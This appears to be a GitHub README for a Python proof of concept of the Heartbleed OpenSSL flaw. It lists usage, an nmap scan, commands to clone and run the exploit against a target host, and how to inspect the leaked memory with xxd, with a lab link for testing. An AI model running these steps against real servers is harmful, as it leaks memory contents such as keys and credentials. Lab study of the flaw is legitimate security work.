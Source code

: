 # heartbleed
A Heartbleed (CVE-2014-0160) PoC in Python 3

```
usage: python3 heartbleed.py [-h] host [port]

Heartbleed PoC

positional arguments:
  host        hostname or IP address
  port        TCP port number (default IS 443)

options:
  -h, --help  show this help message and exit
```

1. If you want a vulnerable server to test, you can set it up from [here](https://github.com/jas9reet/heartbleed-lab "Heartbleed lab")
2. Test for heartbleed vulnerability using nmap:
```
nmap -v -p8443 --script ssl-heartbleed $IP```

3. Install the script if you haven't already, change to directory:
```
git clone https://github.com/H4R335HR/heartbleed/ && cd heartbleed```
  
4. Run the script:
```
python3 heartbleed.py $IP 8443```
5. After running the script, check the output file using xxd to see the results:
```
xxd response_data.bin```
